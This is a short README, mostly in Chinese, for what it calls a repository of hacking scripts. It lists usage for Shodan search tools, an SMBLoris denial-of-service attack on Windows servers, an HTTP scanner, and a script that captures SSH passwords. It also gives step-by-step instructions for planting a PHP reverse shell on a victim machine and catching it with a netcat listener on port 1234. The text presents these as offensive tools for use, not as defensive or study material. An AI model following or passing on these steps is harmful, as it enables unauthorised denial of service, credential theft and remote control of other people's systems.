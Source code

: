 ﻿## Th1s 1s a rep0 ab0ut h3cking scr1pts

# shodan

# 调用shodan api 统计设备数量

shodancount.py <search query>

# 调用shodan api 搜索设备

shodansearch.py <search query>

# SMBLoris

# 通过smb对Windows服务器实施DOS攻击

chmod +x run10.sh

sh run10.sh

# httpscan

# http简易扫描工具

httpscan.py <ip>

# dump_ssh_password

# 提取ssh密码

chmod +x ssh_password.sh

sh password.sh

然后新建一个窗口ssh登录，就可以看见ssh密码

# php-reverse-shell

# php的反弹shell脚本

把php-reverse-shell.php中49行的地址改为自己的公网vps

上传该脚本到被攻击的机器上

登录自己的公网vps，监听1234端口

nc -lvp 1234

在被攻击的机器上执行脚本，即可在vps上看到shell

php php-reverse-shell.php

## Hope you enjoy ^_^